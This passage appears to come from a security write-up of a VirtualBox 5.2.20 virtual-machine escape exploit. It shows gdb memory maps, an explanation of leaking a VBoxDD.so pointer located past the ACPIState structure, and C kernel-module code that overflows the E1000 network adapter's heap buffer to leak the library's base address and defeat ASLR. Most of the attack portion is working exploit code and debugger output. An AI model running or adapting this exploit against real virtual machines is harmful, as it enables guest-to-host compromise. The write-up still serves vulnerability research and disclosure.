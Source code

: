 ```
0x00007fc44d768000 0x00007fc44d968000 0x0000000000275000 --- /home/user/src/VirtualBox-5.2.20/out/linux.amd64/release/bin/VBoxDD.so
0x00007fc44d968000 0x00007fc44d977000 0x0000000000275000 r-- /home/user/src/VirtualBox-5.2.20/out/linux.amd64/release/bin/VBoxDD.so
0x00007fc44d977000 0x00007fc44d980000 0x0000000000284000 rw- /home/user/src/VirtualBox-5.2.20/out/linux.amd64/release/bin/VBoxDD.so
gef➤  p 0x00007fc44d6ecdc6 - 0x00007fc44d4f3000
$2 = 0x1f9dc6
```

It seems there is a pointer to a string placed at a fixed offset from VBoxDD.so image base. The pointer lies at 0x58 offset at the end of ACPIState. We can read that pointer byte-by-byte using the primitives and finally obtain VBoxDD.so image base. We just hope that data past ACPIState structure is not random on each virtual machine boot. Hopefully, it isn't; the pointer at 0x58 offset is always there.

#### 資訊洩漏
Now we combine write and read primitives and exploit them to bypass ASLR. We will overflow the heap overwriting EEPROM93C46 structure, then trigger EEPROM finite automaton to write the index to ACPIState structure, and then execute INB(0x4107) in the guest to access ACPI to read one byte of the pointer. Repeat those 8 times incrementing the index by 1.

```c
uint64_t stage_1_main(void* mmio, void* tx_ring) {
    printk(KERN_INFO PFX"##### Stage 1 #####\n");

    // When loopback mode is enabled data (network packets actually) of every Tx Data Descriptor 
    // is sent back to the guest and handled right now via e1kHandleRxPacket.
    // When loopback mode is disabled data is sent to a network as usual.
    // We disable loopback mode here, at Stage 1, to overflow the heap but not touch the stack buffer
    // in e1kHandleRxPacket. Later, at Stage 2 we enable loopback mode to overflow heap and 
    // the stack buffer.
    e1000_disable_loopback_mode(mmio);

    uint8_t leaked_bytes[8];
    uint32_t i;
    for (i = 0; i < 8; i++) {
        stage_1_overflow_heap_buffer(mmio, tx_ring, i);
        leaked_bytes[i] = stage_1_leak_byte();

        printk(KERN_INFO PFX"Byte %d leaked: 0x%02X\n", i, leaked_bytes[i]);
    }

    uint64_t leaked_vboxdd_ptr = *(uint64_t*)leaked_bytes;
    uint64_t vboxdd_base = leaked_vboxdd_ptr - LEAKED_VBOXDD_RVA;
    printk(KERN_INFO PFX"Leaked VBoxDD.so pointer: 0x%016llx\n", leaked_vboxdd_ptr);
    printk(KERN_INFO PFX"Leaked VBoxDD.so base: 0x%016llx\n", vboxdd_base);

    return vboxdd_base;
}
```
